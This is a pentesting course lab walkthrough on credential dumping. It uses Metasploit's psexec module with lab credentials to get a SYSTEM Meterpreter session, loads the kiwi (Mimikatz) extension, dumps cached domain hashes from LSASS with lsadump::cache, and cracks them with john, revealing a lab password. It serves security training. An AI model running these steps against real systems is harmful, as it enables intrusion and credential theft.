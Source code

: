 ## Activity File: Credential Dumping

In this activity, you used the Metasploit `kiwi` extension to dump the credentials that are cached on the WIN10 machine.

### Instructions

First, open a Meterpreter session as SYSTEM on WIN10 by performing the following steps (if a current Meterpreter SYSTEM session isn't already opened).

1. Load the `psexec` module. `use exploit/windows/smb/psexec`

2. Set the following parameters:

	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
	- ![A screenshot depicts the results of the command.](/v2.5-Curriculum/1-Lesson-Plans/17-Pentesting-2/3/Images/psexecoptions.PNG)
	
3. Run the module with `run`

	- ![A screenshot depicts the results of the command.](/v2.5-Curriculum/1-Lesson-Plans/17-Pentesting-2/3/Images/runpsexec.PNG)

4. In your Meterpreter session, load the `kiwi` extension.

     - `load kiwi`

     ![A screenshot depicts the results of the command.](loadkiwi.PNG)

5. Once a new extension is loaded into Metasploit, it will update the help menu. View the `kiwi` command options by calling the help menu in Meterpreter.

     - `?`

     ![A screenshot depicts the results of the command.](kiwi.PNG)

6. Dump all of the cached credentials from LSASS using a `kiwi_cmd` command. Reference the following cheatsheet for Mimikatz. Pay attention to the "lsadump" section. 

	- [Mimikatz Cheatsheet](https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49)

     **Note**: If the `kiwi` command is not dumping credentials as expected, try migrating to another process using the `migrate` command. Keep in mind that you'll want to migrate to another SYSTEM x64 process. 
	 
	 `kiwi_cmd lsadump::cache`
	 
	 ![A screenshot depicts the results of the command.](lsadump.PNG)

7. In the output, the hashes are displayed after the 'MsCacheV2 field'. MsCacheV2 is just the format of the hash. Save the hashes in the format `username:password`, as shown below.


	![A screenshot depicts the format of the hashes.](../../../Images/hashformat.PNG)
	
	Using `john`, attempt to crack the password. Your `john` command should use the flag --format=mscash2, e.g. `john --format=mscash2 hashes.txt`

	![Image of the hash being cracked with john](john.PNG)

8. You should now have the plaintext password to the new account, 'bbanner'.

	`bbanner:Winter2021`
                                                                                                                               
---
© 2022 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.



